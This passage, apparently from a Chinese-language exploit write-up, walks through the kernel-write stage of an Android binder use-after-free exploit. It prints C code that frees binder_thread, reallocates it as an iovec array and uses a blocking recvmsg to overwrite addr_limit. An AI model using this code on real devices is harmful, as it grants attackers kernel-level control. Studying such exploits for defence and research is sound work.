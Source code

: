 ```c
        if (nBytesWritten != sizeof(finalSocketData)) {
            ERR("\t[-] write failed. nBytesWritten: 0x%lx, expected: 0x%lx", nBytesWritten, sizeof(finalSocketData));
            exit(EXIT_FAILURE);
        }
        exit(EXIT_SUCCESS);
    }
    // parent process
    // I have seen some races which hinders the reallocation.
    // So, now freeing the binder_thread after fork.
    freeBinderThread();
    // Reallocate binder_thread as iovec array and
    // we need to make sure this recvmsg call blocks.
    // recvmsg will block after processing a valid iovec at
    // iovecStack[IOVEC_WQ_INDEX]
    ssize_t nBytesReceived = recvmsg(sock_fd[0], &message, MSG_WAITALL);
    // If the corruption was successful, the total bytes received
    // should be equal to length of all iovec. This is because there
    // are three valid iovec
    ssize_t expectedBytesReceived = iovecStack[IOVEC_WQ_INDEX].iov_len +
                                    iovecStack[IOVEC_WQ_INDEX + 1].iov_len +
                                    iovecStack[IOVEC_WQ_INDEX + 2].iov_len;
    if (nBytesReceived != expectedBytesReceived) {
        ERR("\t[-] recvmsg failed. nBytesReceived: 0x%lx, expected: 0x%lx\n", nBytesReceived, expectedBytesReceived);
        exit(EXIT_FAILURE);
    }
    // Wait for the child process to exit
    wait(nullptr);
}
```

这里就要将addr_limit的值改为`0xFFFFFFFFFFFFFFFE`在arm64里有个检查函数`do_page_fault`会检测该值是否为`0xFFFFFFFFFFFFFFFF`，如果是就触发奔溃，所以一般都设为`0xFFFFFFFFFFFFFFFE`。

前面是从内核读出数据，这里要实现的是向内核写入数据。

看看这里的iovecStack结构：

```c
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *) 0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
```

和前面泄露信息的布局是差不多。

首先依然是初始化环境，先向socket写入了1byte的垃圾数据，之后父进程使用`recvmsg`系统调用接收了1byte的数据之后进行阻塞，这里选用了recvmsg而不是前面writev是因为iovecStack[10].iov_len变成了一个指针，很大的数字，后续调用copy_page_to_iter_iovec复制数据时会出错。

子进程进行unlink操作，将精心构造的finalSocketData写入socket，父进程恢复接收数据，这时iovecStack[11]已经被破坏掉了，等到recvmsg系统调用返回时，就可以修改掉addr_limit的值。
